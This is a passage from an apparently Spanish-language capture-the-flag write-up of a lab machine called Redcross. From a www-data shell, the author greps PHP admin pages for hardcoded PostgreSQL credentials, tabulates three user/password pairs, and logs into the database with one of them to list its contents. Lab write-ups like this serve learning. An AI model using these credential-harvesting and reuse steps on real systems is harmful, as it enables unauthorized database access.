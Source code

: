 ``` php
	$result = pg_execute($dbconn, "q1", array($username, $phash));
	echo "Provide this credentials to the user:<br><br>";
	echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";
}
if($action==='del'){
	header('refresh:1;url=/?page=users');
	$uid=$_POST['uid'];
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$result = pg_prepare($dbconn, "q1", "delete from passwd_table where uid = $1");
	$result = pg_execute($dbconn, "q1", array($uid));
	echo "User account deleted";
}
?>
```

Resumiendo con grep:

``` text
www-data@redcross:/var/www/html/admin/pages$ cat * | grep pg_connect
cat * | grep pg_connect
	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
```

Convirtiendo a tabla:

| # | Host      | dbname   | user       | password      |
|---|-----------|----------|------------|---------------|
| 1 | 127.0.0.1 | redcross | www        | aXwrtUO9_aa&  |
| 2 | 127.0.0.1 | unix     | unixusrmgr | dheu%7wjx8B&  |
| 3 | 127.0.0.1 | unix     | unixnss    | fios@ew023xnw |

# PSQL

Validemos que tenemos dentro de esta base de datos, comenzando por la db con el nombre de la maquina:

``` text
www-data@redcross:/var/www/html/admin/pages$ psql -h 127.0.0.1 -d redcross -U www -W
<dmin/pages$ psql -h 127.0.0.1 -d redcross -U www -W
Password for user www: aXwrtUO9_aa&

\l
                                  List of databases
   Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-----------+----------+----------+-------------+-------------+-----------------------
 postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 redcross  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =Tc/postgres         +
           |          |          |             |             | postgres=CTc/postgres+
           |          |          |             |             | www=CTc/postgres
 template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 unix      | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
(5 rows)
```
